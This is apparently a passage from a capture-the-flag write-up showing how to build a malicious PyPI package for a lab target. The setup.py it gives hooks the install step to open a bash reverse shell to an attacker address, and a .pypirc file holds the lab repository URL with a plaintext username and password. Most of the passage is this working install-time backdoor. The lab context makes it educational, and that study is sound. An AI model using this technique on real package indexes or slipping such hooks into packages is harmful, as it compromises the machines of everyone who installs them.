 ### Creating malicious pypi package
The directory tree that was used for creating the pypi package is as follows:

```
exploit/
    exploit/
        __init__.py
    setup.py
    setup.cfg
    README.md
```

The README.md file and the exploit/exploit/__init__.py file can be kept empty.

The setup.cfg file lets pypi know that the README.md file is a markdown file. 

```                                                  
[metadata]
description-file = README.md
```

The setup.py file is required to contain the basic information about the pypi package. In this file, we can create a class that contains our exploit and we will then need to add a ```cmdclass``` to tell the pypi server that they should install the pypi package onto their server

```python
from setuptools import setup
from setuptools.command.install import install
import os

class Exploit(install):
    def run(self):
        os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/3000 0>&1'")

setup(
    name='exploit',
    packages=['exploit'],
    description='Exploit',
    version='0.1',
    url='http://github.com/example/linode_example',
    author='Exploit',
    author_email='docs@linode.com',
    cmdclass={'install':Exploit},
    keywords=['pip','exploit','example']
    )

```

Last but not least, we should have a ~/.pypirc file as well. This file sets the configuration information for uploading the pypi package onto the server

```
[distutils]
index-servers =
  exploit
[exploit]
repository: http://pypi.sneakycorp.htb:8080
username:pypi
password: soufianeelhaoui
```
